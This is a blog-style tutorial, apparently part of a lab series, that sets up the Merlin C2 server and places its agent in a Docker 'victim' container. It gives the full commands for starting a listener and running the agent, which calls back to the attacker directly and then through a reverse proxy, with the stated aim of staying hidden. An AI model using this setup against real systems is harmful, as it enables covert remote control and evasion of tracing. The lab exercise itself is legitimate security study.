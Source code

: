 ```yaml
---
title: Time for RAT.
description: Draft
date: 2021-07-02
scheduled: 2021-07-02
layout: layouts/post.njk
order: 5
tags:
    - posts
---
```


We have our Attacker server ready, we have our Reverse-Proxy ready, and we have encrypted HTTPS communication.
### It's time for our RAT.
A RAT is a Remote Access Tool. They can be used in a number of positive ways like Windows Remote Control or SSH sessions. Our RAT is going to be malicious though. We're going to control our Victim's system from our Attacker and by using a Reverse-Proxy and SSL we'll be masked and hidden, impossible to trace. Well, not really. But it won't be easy! (We'll try that later.)

First let's get our tools.
Download wget and 7zip onto our Attacker:

``` bash 
apt install wget
apt-get install p7zip-full
```

Next let's get ![Merlin](https://github.com/Ne0nd0g/merlin).
Merlin is a cross-platform post-exploitation Command & Control server and agent written in Go.
We'll create a directory for it and unpack it using 7zip, as per instructions on the ![official site](https://merlin-c2.readthedocs.io/en/latest/quickStart/server.html).

``` bash
mkdir /opt/merlin;cd /opt/merlin
wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z
7z x merlinServer-Linux-x64.7z
./merlinServer-Linux-x64
```

![Merlin](/img/remote/merlin.png)

Let's close it for now though, you can do that with `exit` command.

Merlin consists of the server part, which we just saw, and an agent. An agent will sit in our victim, waiting for the server's instructions and executing them. We already have three precompiled agents for each of the big platforms, Windows, Linux and MacOS.
Navigate into `/opt/merlin/data/bin/linux` and you'll find `merlinAgent-Linux-x64`.

Merlin is a post-exploitation framework, meaning it isn't within the scope of the program to get the agent onto our victim. There are plenty ways for that which I won't try to cover. Let's just copy and paste it into our victim.
First, find the Attacker's and Victim's docker container ID's.

``` bash
docker ps 
```
Now we'll copy the agent from our attacker to our desktop and then from our desktop to our victim.

``` bash
docker cp 75566028d8fb:/opt/merlin/data/bin/linux/merlinAgent-Linux-x64 ~/Desktop/merlinAgent-Linux-x64
docker cp ~/Desktop/merlinAgent-Linux-x64 b9d55696b755:/merlinAgent-Linux-x64
```

Now, we're ready! Let's just check out how Merlin server and Agent work together.
Inside attacker start up Merlin. It's worth mentioning that Merlin has tab completion so if you're unsure about the availeable commands just hit TAB and it'll show you.
Let's use HTTP2.

``` bash
listeners
use http2
options
```

We'll see the defaults now. We'll need to change some of them.
![Merlin options](/img/remote/merlin-options1.png)

Let's use the IP of our container and the port 5555 we've specified earlier and start up our listener.

``` bash
set Interface 172.17.0.3
set Port 5555
start
```

Now we have to connect to our listener with our agent.
Go to victim, navigate to where the agent is, and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.3:5555 -psk 'merlin'
```
With the verbose `-v` flag you should see everything the agent is doing, and on the other side, in our Merlin server, you should see the connection.
Now you have a full control over victim from attacker.
Try our a simple `ls` to get a list of files.

![Merlin ls](/img/remote/merlin-ls.png)

Feels good!

Now let's route the commands through our reverse proxy.
Close the agent with a CTRL + C and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.4/merlin -psk 'merlin'
```

This time we're using the IP of our reverse-proxy, and it still connects!